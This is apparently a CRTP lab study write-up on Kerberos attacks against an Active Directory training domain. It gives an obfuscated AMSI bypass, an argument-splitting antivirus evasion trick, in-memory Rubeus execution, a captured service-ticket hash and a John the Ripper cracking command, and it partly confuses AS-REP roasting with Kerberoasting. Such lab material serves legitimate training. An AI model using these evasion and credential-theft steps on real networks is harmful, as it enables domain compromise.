



CRTP - Certified Red Team Professional
ASREP-Roasting Attack
What is AS-REP Roasting?
AS-REP Roasting is a type of attack that targets Kerberos authentication protocol. It involves exploiting a known weakness in Kerberos to retrieve the password hash of any Kerberos user accounts that have the "Do not require Kerberos preauthentication" option enabled. This attack is particularly effective against accounts that have weak passwords or use older hashing algorithms.
How Does AS-REP Roasting Work?
1. Obtain Access: The attacker gains access to a domain as an authenticated user. Elevated permissions are not required.
1. Identify Target Accounts: The attacker uses an LDAP filter or tools like PowerView’s Get-DomainUser feature to identify user accounts with the "Do not require Kerberos preauthentication" option enabled.
1. Request Kerberos Ticket Granting Ticket (TGT): The attacker requests a TGT from the Key Distribution Center (KDC) in the name of a target account. The KDC responds with the TGT without requiring the account password as a pre-authentication.
1. Extract Password Hash: The attacker extracts the user’s password hash from the AS-REP packet using a tool like Wireshark.
1. Crack Password: The attacker uses a tool like HashCat or John the Ripper to crack the password hash and obtain the plaintext password.
Tools Used for AS-REP Roasting
Several tools can be used to perform AS-REP Roasting, including:
1. Rubeus: This tool can be used to identify all accounts in the domain that do not require Kerberos pre-authentication and extract their AS-REP hashes.
1. Impacket: This suite includes the GetNPUsers module, which can be used to conduct AS-REP Roasting from a non-domain joined system and from an unauthenticated perspective.
1. CrackMapExec: This tool can also perform AS-REP Roasting from authenticated or unauthenticated context.
AS-REPRoasting Attack Targeting Domain Accounts W/O AS-REQ PreAuth - Rubeus
We can use Rubeus to enumerate all domain accounts Without PreAuth Set.
Using PELoader.exe for args encoding.
Back to cmdlet, PELoader.exe is a tool used to load a payload into memory. So I’ll use PELoader.exe now to load and execute Rubeus.exe into memory. Pay attention that if we are using PELoader.exe to load payloads into memory only. It is also good that we execute ArgSplit.bat first to encode parameters of Rubeus, SafetyKatz and BetterSafetyKatz.
Execute argSplit.exe and type:
kerberoast
set "z=t"
set "y=s"
set "x=a"
set "w=o"
set "v=r"
set "u=e"
set "t=b"
set "s=r"
set "r=e"
set "q=k"
set "Pwn=%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%"Now we can use PELoader.exe run Rubeus from the memory without touching the local disk.
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn%

Above you will notice that Rubeus was able to request all AS-REP for the user without Pre-Auth enabled and we can use these hashes to crack them offline using John or Hashcat.
We can also request Rubeus to format the hashes to hashcat or john’s format and to import all the hashes into a file named hashes.txt with with the following command.
Loader.exe -path Rubeus.exe -args %Pwn% /format:hashcat /outfile:C:\AD\Tools\hashes.txt
AS-REPRoasting Attack Targeting Domain Accounts With SNP Set with Rubeus.
In this demonstration we will be targeting Domain Accounts with Service Principal Name set only.
We start by enumerating services running with user accounts as the services running with machine accounts have difficult passwords.
We can use PowerView’s (Get-DomainUser -SPN) or ActiveDirectory module for discovering such services.
Let’s just use PowerView module for that enumeration, by importing it to the target.
The steps reproduced here will also include AV bypassing, but if no AV is being used in the environment then you can skip that and go forward to the enumeration.
Start by running InvisiShell then we can bypass AMSI.
RunWithRegistryNonAdmin.bat

AMSI Bypass.
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )Now let’s import PowerView module and start the enumeration.
. .\PowerView.ps1
Gelt-DomainUser -SPN
pwdlastset : 11/11/2022 9:59:41 PM
logoncount : 0
badpasswordtime : 12/31/1600 4:00:00 PM
description : Key Distribution Center Service Account
distinguishedname : CN=krbtgt,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
objectclass : {top, person, organizationalPerson, user}
showinadvancedviewonly : True
samaccountname : krbtgt
admincount : 1
codepage : 0
samaccounttype : USER_OBJECT
accountexpires : NEVER
countrycode : 0
whenchanged : 11/12/2022 6:14:52 AM
instancetype : 4
useraccountcontrol : ACCOUNTDISABLE, NORMAL_ACCOUNT
objectguid : 956ae091-be8d-49da-966b-0daa8d291bb2
lastlogoff : 12/31/1600 4:00:00 PM
whencreated : 11/12/2022 5:59:41 AM
objectcategory : CN=Person,CN=Schema,CN=Configuration,DC=moneycorp,DC=local
dscorepropagationdata : {11/12/2022 6:14:52 AM, 11/12/2022 5:59:41 AM, 1/1/1601 12:04:16 AM}
serviceprincipalname : kadmin/changepw
usncreated : 12300
usnchanged : 12957
memberof : CN=Denied RODC Password Replication Group,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
lastlogon : 12/31/1600 4:00:00 PM
badpwdcount : 0
cn : krbtgt
msds-supportedencryptiontypes : 0
objectsid : S-1-5-21-719815819-3726368948-3917688648-502
primarygroupid : 513
iscriticalsystemobject : True
name : krbtgt
logoncount : 4
badpasswordtime : 12/31/1600 4:00:00 PM
distinguishedname : CN=web svc,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
objectclass : {top, person, organizationalPerson, user}
displayname : web svc
lastlogontimestamp : 1/1/2024 4:49:03 AM
userprincipalname : websvc
whencreated : 11/14/2022 12:42:13 PM
samaccountname : websvc
codepage : 0
samaccounttype : USER_OBJECT
accountexpires : NEVER
countrycode : 0
whenchanged : 1/1/2024 12:49:03 PM
instancetype : 4
usncreated : 38071
objectguid : b7ab147c-f929-4ad2-82c9-7e1b656492fe
sn : svc
lastlogoff : 12/31/1600 4:00:00 PM
msds-allowedtodelegateto : {CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL, CIFS/dcorp-mssql}
objectcategory : CN=Person,CN=Schema,CN=Configuration,DC=moneycorp,DC=local
dscorepropagationdata : {11/14/2022 12:42:13 PM, 1/1/1601 12:00:00 AM}
serviceprincipalname : {SNMP/ufc-adminsrv.dollarcorp.moneycorp.LOCAL, SNMP/ufc-adminsrv}
givenname : web
usnchanged : 172156
lastlogon : 1/10/2024 1:05:40 AM
badpwdcount : 0
cn : web svc
useraccountcontrol : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, TRUSTED_TO_AUTH_FOR_DELEGATION
objectsid : S-1-5-21-719815819-3726368948-3917688648-1114
primarygroupid : 513
pwdlastset : 11/14/2022 4:42:13 AM
name : web svc
logoncount : 35
badpasswordtime : 11/25/2022 4:20:42 AM
description : Account to be used for services which need high privileges.
distinguishedname : CN=svc admin,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
objectclass : {top, person, organizationalPerson, user}
displayname : svc admin
lastlogontimestamp : 1/1/2024 4:49:39 AM
userprincipalname : svcadmin
samaccountname : svcadmin
admincount : 1
codepage : 0
samaccounttype : USER_OBJECT
accountexpires : NEVER
countrycode : 0
whenchanged : 1/1/2024 12:49:39 PM
instancetype : 4
usncreated : 40118
objectguid : 244f9c84-7e33-4ed6-aca1-3328d0802db0
sn : admin
lastlogoff : 12/31/1600 4:00:00 PM
whencreated : 11/14/2022 5:06:37 PM
objectcategory : CN=Person,CN=Schema,CN=Configuration,DC=moneycorp,DC=local
dscorepropagationdata : {11/14/2022 5:15:01 PM, 11/14/2022 5:06:37 PM, 1/1/1601 12:00:00 AM}
serviceprincipalname : {MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local:1433,
MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local}
givenname : svc
usnchanged : 172187
memberof : CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
lastlogon : 1/10/2024 3:22:26 AM
badpwdcount : 0
cn : svc admin
useraccountcontrol : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
objectsid : S-1-5-21-719815819-3726368948-3917688648-1118
primarygroupid : 513
pwdlastset : 11/14/2022 9:06:37 AM
name : svc admin
The output from our Service Principle Name query, shows us all the domain accounts that are used as Service Accounts.
We should focus on 2 properties here in the output, which are: samaccountname and serviceprincipalname
Base on these 2 properties we are able to determine if the account is a service account or not.
From the request output we can see that we do have several accounts as Service Account, but we will targeting SVCADMIN service account.
SVCADMIN is a domain Administrator account and has a SPN set that’s a great target.
We can use Rubeus to get hashes for the svcadmin account. Note that we are using the /rc4opsec option that gets hashes only for the accounts that support RC4. This means that if 'This account supports Kerberos AES 128/256 bit encryption' is set for a service account, the below command will not request its hashes.
Using PELoader.exe for args encoding.
Back to cmdlet, PELoader.exe is a tool used to load a payload into memory. So I’ll use PELoader.exe now to load and execute Rubeus.exe into memory. Pay attention that if we are using PELoader.exe to load payloads into memory only. It is also good that we execute ArgSplit.bat first to encode parameters of Rubeus, SafetyKatz and BetterSafetyKatz.
Execute argSplit.exe and type:
kerberoast
set "z=t"
set "y=s"
set "x=a"
set "w=o"
set "v=r"
set "u=e"
set "t=b"
set "s=r"
set "r=e"
set "q=k"
set "Pwn=%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%"Now we can execute Rubeus.
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:svcadmin /simple /rc4opsec /outfile:C:\AD\Tools\hashes.txt

The command provided uses the Loader.exe tool to execute the Rubeus.exe tool with specific arguments. Here's a breakdown of the flags used:
1. path: This flag specifies the path to the executable file that will be run. In this case, it is C:\\AD\\Tools\\Rubeus.exe.
1. args: This flag specifies the arguments to be passed to the executable file. The arguments are %Pwn% /user:svcadmin /simple /rc4opsec /outfile:C:\\AD\\Tools\\hashes.txt.
Explanation of Rubeus Flags
1. /user: This flag specifies the username to use for the operation.
1. /simple: This flag indicates that the tool should use simple authentication.
1. /rc4opsec: This flag specifies the encryption type to use. In this case, it is RC4.
1. /outfile: This flag specifies the output file where the results will be saved.
If we check the file hashes.txt file, we are able to see that we were able to request the hashes for svcadmin service account hash.
type hash.txt
$krb5tgs$23$*svcadmin$DOLLARCORP.MONEYCORP.LOCAL$MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local:1433*$65F5F15B51FC2784C75C6C0A532EBCDB$05B5B57B25D8E119674CF62D2C2BFBD7BBD0993D0FE3D26E23CBAC5F416370E265425C1539E7FD8F7749F6980E893BC018D8A16C2E117F75F73889B7AEB1E93B25DD5473BDEE45B2D78BD9977C8CC93EB1C77DA78EAD6705BE661BFCB471A48AFBA6EBB381CA2F313408B54AB7AC6B974E4C4BD361D973864C9219D3D190A7CED0C93222417D7F5FF9315C58A0863A1696BD09E51A315C71B3D672AE7DD9DB68C5B31CFD4FD05F46C59591B80ECC12985E40071C3BAD11CC3B562B715B52AD2F0DE12ED768CCA4BED0C1FE430FCD4E387051DDEC302D2F1739641BE7EBFEDCFA3AE5CCD77587E3B2145EF181C2697FDD1068B3C09011CCBAF4E7CAB8496A60B85E8AB78DE44B844673729D13456E54BBC56D27413DAC7FD2F939DF91AE4D21AA155867515E38DFF655CC8A223E9995FB390F8D7EB66F82F539AE041B33F339DC79271EB127BE15AF9DE014DA12773D6D117C429429D538C46D1FB5D4A6C134F87AE3C3D25603A12978AA71BC5CA5991901DC67AB837D946DCBEB5EC7239D19CCF9E1BBC909C6034D0B34CF861C25D79A0D567AC8B5921EE5DA72DF19B9576DEFC600E36DEB61DDD50BAF1AF3D416941D8B8A279FB6AF139E0D9928BDD09B58938B6FD2782FB0BA423291BA6DC8F0F0B77A034091EEC1A644B7408A55479267F7C30ACE59CCD11976B0CC9A3B8C54D5E4CFB4BB60A8EBB42528499B7DE6934CA9A6038D7F821EBCEFA99E12DCFDC36BEAE6FD9AB6DBC61BE019858B4A5B79900A917268E23947D83DA19A43B5D6C2F3507DAEFE4673EC80CBBDB72016970BA3B95444CC6F94E0557A079A3CF2CA884D8F79EEFA9E4267AA4E226EDDBD50AF89DDDB93AE60A2D8FA6B72C6CABB891FAEB927759635B9656B4DBEC78A34F3C09725781E6A7D5CA3EE411853863FD925BDA31E9E6775900C52200AF3B7F8ECDFC2C70B6BCFC01D19E84FA31717A864562E561383647367FF3930DA7A5C9C7063701EEF47E823CE28C148799D76E3B202586BD500EF97F9B0BB669D08341EE76B62746CA33953B19A5CB64CA7A4D5E2872CCB4CE75DA8906581370E04444B81736D36F6360A128C9F4654CBFBB16831B1E01C33C1A9D7CB6649D1A373C7CE079561BE628A6DAFCDE81C0BB7BCB433CCB289F365CF074384A3800862A93F70D5A9BE2221F108A7E0C5657B3125B398A2E7A538848E589230DF86516FEDE82FB8314536B3BC677E7AC9283F21FA30CA47E5F649DDD0EF29C9AFE08AF8477E166705283A61F903D6E873CE6A44B192FF8C926C33BB3612EF004299BBC1DBA5D387294A49D2FE1D2F75582FCADE1E89383DD5193F6F2A1D9319376386494DFE7507BEE1FD979DC97A5954ED974E7F0D19DDB2F6BA9B5EF7DC0A9EDA1CCDDB0644E749681CFAF51FE084DD62D6408E0AA0B9C0069AFF773A61BE872D95994E16C457FBF2F96392AB300762B84AFDC841B606203EE982D58FFFF365839FB81B3EB6BE1DBBFF384776B316686680DEA997E85700C1B50861B1C3CAECE964138C40AF72185401D6B6835F502014812D0934AD7C318BE5C82D485D98D48D47166AE401CECA2A9AD8D84C2DDAB01B8F9D52B05EC6596E9A44095F94B88A0C1CA45C018F83974F3D76DA5607F05988B70FD83CDAED50A2D388BE12F5A9F1630B0CA1C5D988We can now use John the Ripper to brute-force the hashes. Please note that you need to remove ":1433" from the SPN in hashes.txt before running John or hashcat.
Let’s now use John and try to crack this Service Account hash.
C:\AD\Tools\john-1.9.0-jumbo-1-win64\run\john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt

*ThisisBlasphemyThisisMadness!!